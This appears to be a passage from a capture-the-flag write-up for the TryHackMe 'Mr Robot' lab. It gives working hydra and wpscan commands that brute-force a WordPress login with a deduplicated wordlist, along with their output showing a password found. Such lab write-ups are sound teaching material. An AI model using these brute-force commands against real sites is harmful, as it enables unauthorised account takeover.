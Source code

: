 `username = Elliot` (this one is on me)

Then the password

It was taking mad long so I reduced the dictonary

SORTING AND REMOVING DUPLICATES from your bruteforce dictionaries:

`sort fsocity.dic | uniq > fsocity-sorted.dic`

OR:

`cat fsocity.dic | sort -u | uniq > wordlist.dic`

Then

```
hydra -l Elliot -P /home/nair0lf32/Desktop/Stuff/THM/mrRobot/fsocity.dic 10.10.82.148  http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -V -t 30


[ATTEMPT] target 10.10.245.102 - login "Elliot" - pass "experiencing" - 356 of 6077 [child 54] (0/0)
[ATTEMPT] target 10.10.245.102 - login "Elliot" - pass "experiment" - 357 of 6077 [child 52] (0/0)
[ATTEMPT] target 10.10.245.102 - login "Elliot" - pass "experimental" - 358 of 6077 [child 57] (0/0)
[ATTEMPT] target 10.10.245.102 - login "Elliot" - pass "experince" - 359 of 6077 [child 58] (0/0)
[80][http-post-form] host: 10.10.245.102   login: Elliot   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found

```

Alternatively you can bruteforce for password with wp-scan:
wpscan --url 10.10.245.102 --wp-content-dir wp-admin --usernames elliot --passwords /home/nair0lf32/Desktop/Stuff/THM/mrRobot/fsocity-sorted.dic 

```
...

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - elliot / [REDACTED]                                                                                                                   
All Found                                                                                                                                                                   
Progress Time: 00:02:02 <================================================================================================                                                                                  > (12 / 22) 54.54%  ETA: ??:??:??

[!] Valid Combinations Found:
| Username: elliot, Password: [REDACTED]

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Oct 24 22:06:22 2021
[+] Requests Done: 206
[+] Cached Requests: 6
[+] Data Sent: 50.97 KB
[+] Data Received: 18.609 MB
[+] Memory used: 245.754 MB
[+] Elapsed time: 00:02:21
```
Burpsuite could be used too but slow for community edition
